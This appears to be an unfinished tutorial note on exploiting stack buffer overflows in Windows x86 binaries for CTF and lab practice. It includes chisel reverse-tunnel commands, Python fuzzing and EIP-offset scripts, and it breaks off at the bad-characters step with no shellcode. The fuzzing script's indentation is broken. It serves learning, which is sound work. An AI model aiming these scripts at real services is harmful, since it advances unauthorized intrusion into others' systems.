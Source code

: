 # Buffer Overflow - Stack based - Winx86

*For the buffer overflow, you need to take the binary you want to investigate and put it in your own lab to analyse and test it.  
Sometimes for CTF or on CTF platforms you will have to get it from the remote machine.*

## Some advice on how to learn

When I started, I found buffer overflow very hard.  
And today I almost enjoy it ;) :D  

In order to understand it better, here is what I did:

- Checked out Heath Adams video The Cyber Mentor on youtube (completely free, clear and very well explained)
- Completed this with the cours on HTB Academy 
- Finally I practiced on some boxes on TryHackMe

*See links in the resources below*

## Tools

### x64dbg

- [Install instructions](https://github.com/x64dbg/x64dbg)
- [Latest release](https://github.com/x64dbg/x64dbg/releases/tag/snapshot)

### Immunity Debbuger

- If you do not like x64dbg you can use Immunity Debbugger


### ERC

- Plugin for x64gdb
- [Latest release](https://github.com/Andy53/ERC.Xdbg/releases)
- `ERC --help` will show help menu
- `ERC --config SetWorkingDirectory C:\Users\User\directory` Set default working directory

## Set up your testing lab

[](TODO)
- Virtualbox or VMWare
- One kali
- One win

## Methodology

***Note: The scripts provided here are shown as example, you will have to modify them according to the behavior of the binary you are testing***

### 1. Fuzzing parameters

- Remote fuzzing
  - `netstat -a` | to check if the bin listens on a specific port
    ```DOS
    Proto  Local Address          Foreign Address        State
    TCP    0.0.0.0:21449          IEWIN7:0               LISTENING
    ```
   - You will need chisel
     On your attacking machine `./chisel server -reverse`  
     On your victim machine .\chisel.exe client IP-DE-KALI:8080 R:21449:127.0.0.1:21449
   - From your attacking machine
     `.\nc.exe 127.0.0.1 PortNumber` | to interact with the bin remotely
    - Start fuzzing
      ```python
      import socket
      from struct import pack

      IP = "127.0.0.1"
      port = 21449

      def fuzzing():
         try:
             for i in range(0,10000,500):
                 buffer = b"A"*i
                 print("Fuzzing %s bytes" % i)
                 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                 s.connect((IP, port))
                 s.send(buffer)
                 breakpoint() 
                 # To follow in console until you reach the error you can type c and enter
                 s.close()
             except:
                 print("Could not establish a connection")
      fuzzing()
      ```
      Here is how it looks in your console:
      ```bash
      ┌──(kali㉿kali)-[~/Documents/bof]
      └─$ python3 fuzz.py
      Fuzzing 0 bytes
      > /home/kali/Documents/bof-htb/assessment.py(16)fuzzing()
      -> s.close()
      (Pdb) c
      Fuzzing 500 bytes
      > /home/kali/Documents/bof-htb/assessment.py(15)fuzzing()
      -> breakpoint()
      (Pdb)
      ```
      
### Controlling EIP

Once we get the number of bytes, we can fill our buffer with an ASCII pattern.
- In x32dbg
  ```
  ERC --pattern c 500
  ```
  
  Erc will generate a txt with a pattern that will be available in your working directory (if you did not set a working dir, it will probably end up in the plugins folder)
  It should be named "Pattern_Create_1.txt"

- We modify our script accordingly
  ```python
  # fuzzing()
  def eip_offset():
     pattern = bytes("PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE" ,"utf-8")
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect((IP, port))
     s.send(pattern)
     s.close()

  eip_offset()
  ```
  We can now relaunch the program from our debbugger
  The program will crach with the pattern that rewritten EIP.
  In x32debug we can select the address of EIP to calculate the offset we can click on "modify value"  
  ![EIP address](../.res/image37.png)  
  We can then use ERC pattern: `ERC --pattern o pA6p`  
  ![ERC pattern](../.res/image12.png)  
  In the example we can then write that our offset is 469
  We can update our script accordingly
  ```python
  # eip_offset()

  def eip_control():

          offset = 469
          buffer = b"A"*offset
          eip = b"B"*4
          payload = buffer + eip

          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((IP, port))
          s.send(payload)
          s.close()

  eip_control()
  ```
  We can then relaunch the bin with the restart button in x32dbg (Note everytime you rerun the script check that it is running and not paused)
  We can now see that we control EIP because we can see our B (42424242) sent by our script  
  ![ERC pattern](../.res/image27.png)  

### 3. Identifying Bad Characters

We now need another function to identify bad chars.
To get a list of badchars we can use the following command with ERC `ERC --bytearray` we will then get a file intitled `ByteArray_1.txt` in our working directory.

     [](TODO)

## Resources

- [Buffer overflow made easy 2022 Edition - The Cyber Mentor](https://www.youtube.com/watch?v=ncBblM920jw&ab_channel=TheCyberMentor)
- [Buffer Overflows Made Easy - The Cyber Mentor](https://youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)
- [Stack-Based Buffer Overflows on Windows x86 - HackTheBox Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86)
- [Buffer Overflow Prep - THM](https://tryhackme.com/room/bufferoverflowprep)
- [Brainstorm - THM](https://tryhackme.com/room/brainstorm)
- [Brainpan - THM](https://tryhackme.com/room/brainpan)
- [Gatekeeper - THM](https://tryhackme.com/room/gatekeeper)
- [x64dbg](https://github.com/x64dbg/x64dbg)
- [x64dbg releases](https://github.com/x64dbg/x64dbg/releases/tag/snapshot)
- [ERC releases](https://github.com/Andy53/ERC.Xdbg/releases)
